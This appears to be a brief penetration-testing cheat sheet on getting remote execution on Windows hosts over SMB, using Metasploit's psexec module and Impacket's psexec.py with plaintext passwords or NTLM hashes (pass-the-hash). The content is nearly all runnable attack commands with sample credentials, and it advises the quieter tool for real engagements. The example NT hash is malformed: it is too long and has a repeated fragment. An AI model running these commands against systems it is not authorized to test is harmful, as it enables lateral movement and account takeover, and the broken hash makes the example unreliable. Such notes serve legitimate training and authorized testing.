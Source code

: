 # Metasploit
```
Easy but noisy, do this for CTFs or certs.
use exploit/windows/smb/psexec
set RHOST $(IP_ADDRESS)
set SMBDomain $(DOMAIN) # e.g MARVEL.local
set SMBUser $(USERNAME)
set SMBPass $(PASSWORD) # The password can be the hash instead of the cracked password.
exploit
```
# psexec.py
Much less noisy. Do this in real-world engagements or certs where metasploit isn't allowed.
```bash
psexec.py $(DOMAIN)/$(USERNAME):'$(PASSWORD)'@$(IP_ADDRESS)
```
Example:
```bash
psexec.py MARVEL.local/fcastle:'Password1'@192.168.138.137
```
How to do it with a hash instead:
```bash
psexec.py $(USERNAME)@$(IP_ADDRESS) -hashes $(LM):$(NT)
```
Example:
```bash
psexec.py administrator@10.0.0.25 -hashes aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d4edc98d0a0c9797ef98b869751
```
